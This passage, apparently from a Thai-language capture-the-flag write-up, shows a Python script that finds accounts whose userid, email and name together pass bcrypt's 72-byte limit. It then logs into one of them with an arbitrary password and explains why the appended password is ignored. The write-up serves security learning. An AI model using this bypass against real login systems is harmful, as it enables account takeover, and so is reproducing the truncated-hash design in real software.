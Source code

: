 ```python
import re

with open("users.txt") as f:
    users = re.compile(r"\((\d+),'([\d]+)','([\w\.\+-]+@[\w\.-]+\.[a-zA-Z]+)','([\$a-zA-Z0-9\./]+)','([\w\s]+)','(\w+)'\)").findall(f.read())
    for user in users:
        [_, userid, email, _, name, _] = user
        checkpass = userid+email+name
        
        if len(checkpass) >= 72:
            print(email, len(checkpass))
```

จะได้เป็น

```
christopher_rodriguez@gmail.com 72
christopherthompson25@outlook.com 73
christopherhernandez66@outlook.com 75
martinez.christopher@outlook.com 72
alexander.rodriguez815@hotmail.com 73
charlotte.hernandez560@outlook.com 73
oknaka.support@secplayground.com 78
christopher.hernandez200@aol.com 73
rodriguez.christopher@outlook.com 74
```

แล้ว**ตาวิเศษ**ของผมก็ไปเห็นเมลที่ domain เป็น secplayground.com ก็เลย เอาไปลอง login ก่อน

```
email: oknaka.support@secplayground.com
password: what ever u want
```

แล้วก็เจอ

![alt text](flag.png)

ถ้าถามว่ามัน login ผ่านได้ยังไง คืออย่างที่กล่าวไปตอนแรก ไอ้เจ้าตัว bcrypt เนี่ย มันจะเอาแค่ 72 byte แรกของสายอักขระไป hash แล้ว byte ที่ 73 ขึ้นไปคือลูกเมียน้อย(โดนเมิน) แล้วตัวที่เราเลือก แค่ไอ่ `userid+email+name` มันก็ปาไป 78 ตัว แล้วจริงๆระบบอะมันจะต่อ `password` ตามหลังไปอีก ซึ่งจะต่อ `password` มาอีกไกลแค่ไหนก็ไม่มีผลแล้ว เพราะมันไม่ได้ถูกเอาไป hash ด้วย เราก็เลย**หวานเจี๊ยบ**

จริงๆ มันไม่ได้สวยหรูแบบนี้หรอก แต่เครื่องทีมผมมีปัญหาอยู่ทีมเดียวมั้ง

![alt text](image-3.png)
